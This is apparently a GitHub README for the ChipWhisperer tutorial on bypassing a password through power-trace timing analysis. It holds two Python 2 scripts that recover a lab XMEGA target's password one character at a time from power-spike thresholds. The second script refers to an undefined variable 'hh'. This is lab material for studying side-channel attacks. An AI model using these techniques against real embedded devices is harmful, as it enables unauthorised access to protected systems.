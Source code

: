
# Tutorial B3-1 Timing Analysis with Power for Password Bypass

Test script for chipwhisperer tutorial : https://wiki.newae.com/Tutorial_B3-1_Timing_Analysis_with_Power_for_Password_Bypass

## One character check. 

I found a trace that worked for me around 203 units. Unfortunately this is not good enough for full password discovery.

```
"""Setup script for CWLite/1200 with XMEGA (CW303/CW308-XMEGA/CWLite target)

Configures scope settings to prepare for capturing SimpleSerial power traces
"""

# GUI compatibility
try:
    scope = self.scope
    aux_list = self.aux_list

except NameError:
    pass
    
scope.gain.gain = 45
scope.adc.samples = 25000
scope.adc.offset = 0
scope.adc.basic_mode = "rising_edge"
scope.clock.clkgen_freq = 7370000
scope.clock.adc_src = "clkgen_x4"
scope.trigger.triggers = "tio4"
scope.io.tio1 = "serial_rx"
scope.io.tio2 = "serial_tx"
scope.io.hs2 = "clkgen"

target.key_cmd = ''
target.go_cmd = ''
target.output_cmd = ''


from chipwhisperer.capture.auxiliary.ResetCW1173Read import ResetCW1173
Resetter = ResetCW1173(xmega=True, delay_ms=1200)
aux_list.register(Resetter.resetThenDelay, "before_trace")

# h0px3\n
trylist = 'abcdefghijklmnopqrstuvwxyz0123456789'
password = ''

for c in trylist:
    # Get a power trace using our next attempt
    nextPass = password + '{}'.format(c) + "\n"
    target.go_cmd = nextPass
    cw.captureN(self.scope, self.target, None, self.aux_list, self.ktp, 1)
        
    # Grab the trace and check nextTrace[203]
    nextTrace = scope.getLastTrace()
    
    # check where the power spike happens and change the values below. Mine was at 203 and I checked for values smaller than -0.135
    if nextTrace[203] < -0.135: 
        print "Success: " + c

```


# All characters

I had issues with the start point of 203 points that I identified in the first step. Keep in mind that when an attempt is made the trace is slightly different compared to when it completes and finds the password correctly. The processing trace is different. 

In the end, I observed a successful trace and worked backwards from there as well. Hence why my startPoint now is set to 344 points with a step of 36.  

```
"""Setup script for CWLite/1200 with XMEGA (CW303/CW308-XMEGA/CWLite target)

Configures scope settings to prepare for capturing SimpleSerial power traces
"""

# GUI compatibility
try:
    scope = self.scope
    aux_list = self.aux_list

except NameError:
    pass
    
scope.gain.gain = 45
scope.adc.samples = 25000
scope.adc.offset = 18
scope.adc.basic_mode = "rising_edge"
scope.clock.clkgen_freq = 7370000
scope.clock.adc_src = "clkgen_x4"
scope.trigger.triggers = "tio4"
scope.io.tio1 = "serial_rx"
scope.io.tio2 = "serial_tx"
scope.io.hs2 = "clkgen"

target.key_cmd = ''
target.go_cmd = ''
target.output_cmd = ''


from chipwhisperer.capture.auxiliary.ResetCW1173Read import ResetCW1173
Resetter = ResetCW1173(xmega=True, delay_ms=1200)
aux_list.register(Resetter.resetThenDelay, "before_trace")

# password if h0px3\n
# trylist = 'abghj0px3df' # short test list
trylist = 'abcdefghijklmnopqrstuvwxyz0123456789'
password = ''

for i in range(5):
    for c in trylist:
        # Get a power trace using our next attempt
        nextPass = password + '{}'.format(c) + "\n"
        target.go_cmd = nextPass
        cw.captureN(self.scope, self.target, None, self.aux_list, self.ktp, 1)
        
        # Grab the trace
        nextTrace = scope.getLastTrace()
         
        startPoint = 344+36*i
        print hh, c
        print nextTrace[startPoint]

        # Check location 153, 225, etc. If it's too low, we've failed
        if nextTrace[startPoint] < -0.104:
            print 'found'

            
            # If we got here, we've found the right letter
            password += c
            print '{} characters: {}'.format(i+1, password)
            break
```

